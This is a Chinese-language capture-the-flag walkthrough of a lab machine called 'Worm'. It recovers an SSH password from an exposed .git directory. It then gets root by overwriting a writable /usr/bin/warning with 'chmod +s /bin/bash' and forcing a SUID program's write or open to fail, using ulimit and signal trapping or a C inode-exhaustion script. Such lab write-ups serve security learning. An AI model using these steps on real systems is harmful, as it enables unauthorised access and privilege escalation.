

端口扫描 1 2 3 4 5 6 7 8 9 10 11 ┌──(kali㉿kali)-[~/HMV/worm] └─$ sudo nmap -p- 192.168.43.224 Nmap scan report for Worm (192.168.43.224) Host is up (0.00048s latency). Not shown: 65533 closed tcp ports (reset) PORT STATE SERVICE 22/tcp open ssh 80/tcp open http MAC Address: C6:68:89:8C:90:5C (Unknown) Nmap done : 1 IP address (1 host up) scanned in 1.42 seconds
web 渗透 上 web 页面查看，发现是个基本上啥也没有的空白页面，那就进行目录扫描：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 ┌──(kali㉿kali)-[~/HMV/worm] └─$ dirsearch -u http://192.168.43.224 _|. _ _ _ _ _ _|_ v0.4.3 (_||| _) (/_(_|| (_| ) Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460 Output File: /home/kali/HMV/worm/reports/http_192.168.43.224/_26-01-22_21-26-21.txt Target: http://192.168.43.224/ [21:26:21] Starting: [21:26:21] 301 - 315B - /.git -> http://192.168.43.224/.git/ [21:26:21] 200 - 2B - /.git/COMMIT_EDITMSG [21:26:21] 200 - 92B - /.git/config [21:26:21] 200 - 73B - /.git/description [21:26:21] 200 - 23B - /.git/HEAD [21:26:21] 200 - 217B - /.git/index [21:26:21] 200 - 240B - /.git/info/exclude [21:26:21] 200 - 459B - /.git/info/ [21:26:21] 200 - 558B - /.git/logs/HEAD [21:26:21] 200 - 411B - /.git/branches/ [21:26:21] 200 - 674B - /.git/hooks/ [21:26:21] 301 - 325B - /.git/logs/refs -> http://192.168.43.224/.git/logs/refs/ [21:26:21] 200 - 558B - /.git/logs/refs/heads/master [21:26:21] 301 - 331B - /.git/logs/refs/heads -> http://192.168.43.224/.git/logs/refs/heads/ [21:26:21] 301 - 326B - /.git/refs/heads -> http://192.168.43.224/.git/refs/heads/ [21:26:21] 200 - 607B - /.git/ [21:26:21] 200 - 483B - /.git/logs/ [21:26:22] 200 - 41B - /.git/refs/heads/master [21:26:22] 301 - 325B - /.git/refs/tags -> http://192.168.43.224/.git/refs/tags/ [21:26:22] 200 - 464B - /.git/refs/ [21:26:22] 200 - 534B - /.git/objects/ [21:26:22] 403 - 279B - /.htaccess.orig [21:26:22] 403 - 279B - /.htaccess.sample [21:26:22] 403 - 279B - /.ht_wsr.txt [21:26:22] 403 - 279B - /.htaccess.save [21:26:22] 403 - 279B - /.htaccess.bak1 [21:26:22] 403 - 279B - /.htaccess_sc [21:26:22] 403 - 279B - /.htaccess_extra [21:26:22] 403 - 279B - /.htaccess_orig [21:26:22] 403 - 279B - /.htaccessBAK [21:26:22] 403 - 279B - /.htaccessOLD2 [21:26:22] 403 - 279B - /.htaccessOLD [21:26:22] 403 - 279B - /.htm [21:26:22] 403 - 279B - /.html [21:26:22] 403 - 279B - /.htpasswds [21:26:22] 403 - 279B - /.httr-oauth [21:26:22] 403 - 279B - /.htpasswd_test [21:26:22] 403 - 279B - /.php [21:26:30] 403 - 279B - /server-status [21:26:30] 403 - 279B - /server-status/ Task Completed
发现存在 git泄漏 ，那就用 git-dumper 下载下来：
1 2 3 4 5 6 7 8 9 ┌──(kali㉿kali)-[~/HMV/worm] └─$ git-dumper http://192.168.43.224 git Warning: Destination 'git' is not empty [-] Testing http://192.168.43.224/.git/HEAD [200] [-] Testing http://192.168.43.224/.git/ [200] [-] Fetching .git recursively [-] Fetching http://192.168.43.224/.gitignore [404] [-] http://192.168.43.224/.gitignore responded with status code 404 [-] Fetching http://192.168.43.224/.git/ [200]
下载下来之后，发现有一个叫 creds.txt 的文件，其内容如下：
看上去是个 ssh 的凭据，尝试登录，发现登录不上去。
那就看看 git 的历史记录：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 ┌──(kali㉿kali)-[~/HMV/worm/git] └─$ git log -p --all commit b20ebc0e54047f39e739f50e21837b154cd4c6b9 (HEAD -> master) Author: Your Name <you@example.com> Date: Tue Jan 20 09:07:31 2026 -0500 4 diff --git a/creds.txt b/creds.txt new file mode 100644 index 0000000..8b25a83 --- /dev/null +++ b/creds.txt @@ -0,0 +1 @@ +june:showmeyourpassword commit 1e0f35c5f74fa99bfff05187488e76bc6c072db6 Author: Your Name <you@example.com> Date: Tue Jan 20 09:07:02 2026 -0500 3 diff --git a/creds.txt b/creds.txt deleted file mode 100644 index e9a18ec..0000000 --- a/creds.txt +++ /dev/null @@ -1,3 +0,0 @@ -june -mTdwC2mn94UlBr31y56t -
获取立足点 发现有一个旧的用户凭据，用这个凭据进行 ssh 登录，登录成功了：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 ┌──(kali㉿kali)-[~/HMV/worm/git] └─$ ssh june@192.168.43.224 june@192.168.43.224's password: Linux Worm 4.19.0-27-amd64 #1 SMP Debian 4.19.316-1 (2024-06-25) x86_64 The programs included with the Debian GNU/Linux system are free software; the exact distribution terms for each program are described in the individual files in /usr/share/doc/*/copyright. Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent permitted by applicable law. Last login: Thu Jan 22 02:12:29 2026 from 192.168.43.219 -bash-5.0$ cat user.txt flag{user-e1c65e4d4ef5f4834934b51fa7aa7d71} -bash-5.0$
拿到了 user flag。
提权 在 /opt 目录下发现了一个有 SUID 权限的程序：
1 2 3 4 5 6 -bash-5.0$ cd /opt -bash-5.0$ ls -liah total 28K 784898 drwxr-xr-x 2 root root 4.0K Jan 22 02:16 . 2 drwxr-xr-x 18 root root 4.0K Mar 18 2025 .. 784899 -rwsr-sr-x 1 root root 17K Jan 20 09:47 write
这个程序是个 ELF 文件，是可读的，拿下来用 IDA 进行分析：

可以看到，这个程序会进行 setuid(0) ，并且会接受一个字符串，然后打开 /opt/welcome.txt 这个文件，把字符串写到这个文件里。
其中有一个比较重要的语句就是 system("warning") ，这是一个非常典型的可以进行 PATH 劫持 的漏洞，如果我们能够走到这个流程中，可以尝试进行 PATH 劫持。
但为了走到这个 system("warning") 的语句，我们要么让 open() 失败，要么让 write() 失败。
并且，我们发现 warning 对应的程序 /usr/bin/warning 是可写的，所以直接用想执行的命令替换掉这个程序就好了，也不用进行 PATH 劫持。
1 2 3 4 5 6 -bash-5.0$ which warning /usr/bin/warning -bash-5.0$ ls -liah /usr/bin/warning 265773 -rwxr-xr-x 1 june june 19 Jan 22 00:47 /usr/bin/warning -bash-5.0$ echo 'chmod +s /bin/bash' > /usr/bin/warning -bash-5.0$
方案一 我询问了 AI ，AI 说可以用 ulimit -f 0 让最大可写文件大小 RLIMIT_FSIZE 为 0 ，这样可以让 write() 失败，尝试：
1 2 3 4 -bash-5.0$ ulimit -f 0 -bash-5.0$ /opt/write 123 File size limit exceeded -bash-5.0$
但是程序输出了 File size limit exceeded ，而且 /usr/bin/warning 并没有被执行。
继续询问 AI，他说这是 内核发的 SIGXFSZ 信号 ，这个信号会直接杀死进程，导致程序后面的部分没有被执行。
因此，我们可以用 trap "" SIGXFSZ 来忽略这个信号，再执行程序：
1 2 3 4 5 6 -bash-5.0$ trap "" SIGXFSZ -bash-5.0$ /opt/write 123 Failed to write to file: File too large -bash-5.0$ ls -liah /bin/bash 263242 -rwsr-sr-x 1 root root 1.2M Apr 18 2019 /bin/bash -bash-5.0$
这次 /usr/bin/warning 就被执行了， 就可以用 bash -p 进行提权：
1 2 3 4 5 6 -bash-5.0$ bash -p bash-5.0# whoami root bash-5.0# cat /root/root.txt flag{root-415fd5c8fdc9e94be02839e3afd69720} bash-5.0#
拿到了 root flag。
方案二 根据群友的方案，学习到了 Inode。
Inode 是用来描述 一个文件本身 的数据结构，它包含文件的所有元信息和指向数据的地址。
比较重要的是，每个文件都需要一个 Inode ，而 Inode 的数量是有限的，如果 Inode 被用完了，即便磁盘还有空间，也无法创建文件，这就是能导致 open() 失败的第二个思路。
所以我们的思路就是，创建很多个小文件，用完 Inode ，再执行程序导致 open() 失败。
在使用之前，我们必须先确认我们要创建文件的目录和程序所在的 /opt 目录在同一个分区下：
1 2 3 4 5 6 -bash-5.0$ df -i /opt Filesystem Inodes IUsed IFree IUse% Mounted on /dev/sda1 1905008 61717 1843291 4% / -bash-5.0$ df -i /tmp Filesystem Inodes IUsed IFree IUse% Mounted on /dev/sda1 1905008 61717 1843291 4% /
确认 /tmp 和 /opt 在同一个分区下，接下来创建很多个文件来占满 Inode。
这里就直接放了群友的脚本：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 #include <stdio.h> #include <stdlib.h> #include <fcntl.h> #include <unistd.h> #include <string.h> #include <errno.h> #include <sys/stat.h> int main () {long target_inodes = 2000000 ;long count = 0 ;char filename[64 ];printf ("开始创建 %ld 个文件以占用 inode...\n" , target_inodes);const char * dir = "inode_pit" ;mkdir(dir, 0755 ); for (count = 0 ; count < target_inodes; count++) {snprintf (filename, sizeof (filename), "%s/f_%ld" , dir, count);int fd = creat(filename, 0644 );if (fd < 0 ) {if (errno == ENOSPC) {printf ("\n[停止] 提示信息：磁盘 Inode 已耗尽 (No space left on device)!\n" );printf ("最终成功创建文件数: %ld\n" , count);} else { perror("\n创建文件失败" ); } break ;} close(fd); if (count % 10000 == 0 ) {printf ("\r已创建: %ld" , count);fflush(stdout ); } } if (count == target_inodes) {printf ("\n任务完成：已成功占用 %ld 个 inode。\n" , target_inodes);} return 0 ;}
编译并运行，Inode 被占满之后，再创建文件会报错 No space left on device.。
之后再运行程序即可。